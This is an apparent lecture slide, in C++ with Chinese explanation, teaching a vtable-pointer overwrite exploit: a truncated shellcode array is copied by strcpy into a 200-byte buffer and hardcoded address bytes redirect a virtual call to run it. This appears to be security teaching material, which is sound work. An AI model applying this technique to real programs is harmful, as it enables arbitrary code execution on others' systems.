

| char shellcode[] =“xFC\x68\x6A….. \xA4\x8B\x42\x00”; class Failwest{ public: char buf[200]; virtual void test(void) { cout<<"Class Vtable::test()"<<endl; }; };  Failwest overflow, \*p;  void main(void){ char \*p\_vtable; p\_vtable = overflow.buf – 4; int len = strlen(shellcode); \_\_asm int 3; //人为增加一个断点 p\_vtable[0] = 0x54; p\_vtable[1] = 0x8c; p\_vtable[2] = 0x42; p\_vtable[3] = 0x00; strcpy(overflow.buf, shellcode); p = &overflow; p->test(); } |
| --- |
得到虚表指针：为虚表指针位于对象overflow成员变量char buf[200]之前，程序中通过p_vtable=overflow.buf-4定位到这个指针。
这是我们能利用的缓冲区，这意味着，恶意代码shellcode被存储到了overflow.buf位置。
我们希望通过调用test虚函数的时候，跳转到这个位置去执行恶意代码。但是，怎么让调用test虚函数的时候，通过虚表指针找到的虚函数指针就是我们期待的目标呢？